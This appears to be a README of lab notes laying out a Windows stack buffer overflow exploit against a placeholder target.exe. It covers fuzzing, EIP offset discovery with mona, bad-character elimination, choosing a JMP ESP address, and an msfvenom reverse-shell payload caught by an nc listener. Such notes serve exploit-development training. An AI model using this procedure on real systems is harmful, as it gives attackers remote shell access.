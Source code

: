 # bof
## Buffer Overflows

## Setup
* Open Immunity Debugger as admin
* In Immunity Debugger, set a working folder for mona:
```!mona config -set workingfolder c:\mona\%p```

## Fuzzing
* In Kali, create the fuzzer.py script and execute
* Note the size of the largest string sent
* Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
```$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <string+400>```
* Create exploit.py with the generated payload
		
## Control EIP
* Relaunch target.exe and run exploit.py
* In Immunity Debugger, run findmsp:
```!mona findmsp -distance <string>```
* Locate "EIP contains normal pattern: <> (offset <>)"
* Note EIP and ESP registers
* Update exploit.py with new values:
  * Set offset variable value in exploit.py to EIP offset value
  * Set payload to empty string
  * Set retn variable to 'BBBB'
* Relaunch target.exe and run exploit.py
* EIP should now be overwritten with 42424242

## Find Bad Characters
### Iteration 0
* Create a bytearray in Mona:
```!mona bytearray -b "\x00"```

_Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)_

* In Kali, create and run a python script to generate bad characters:
```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
* Update payload variable in exploit.py with badchars string

### Iteration 1..n of n
* Reload target.exe and run exploit.py
* Note the ESP address
* Run !mona compare with the ESP address
```!mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>```
* Generate a new bytearray in Mona, excluding all badchars from the comparison result:
```!mona bytearray -b "\x00\x07\x2e\xa0"```
	
_Note: don't include sequential characters_

* Remove badchars from exploit.py:
```payload = "<all non-bad characters>"```
*  All bad characters identified when result: "Unmodified"

## Jump Point
* Run !mona jmp to identify all jump points with addresses that don't contain badchars:
```!mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"```
* Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
  * Mona address: "0x625011af"
  * Python address: "\xaf\x11\x50\x62"

## Generate Payload and NOPs
* Create a payload with msfvenom:
```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py```
* Update payload of exploit.py with 'buf' variable definition and set payload = buf
* Set padding variable to 16 NOP bytes:
```padding = "\x90" * 16```

## Exploitation
* Start nc listener on :port
* Reload target.exe and exploit
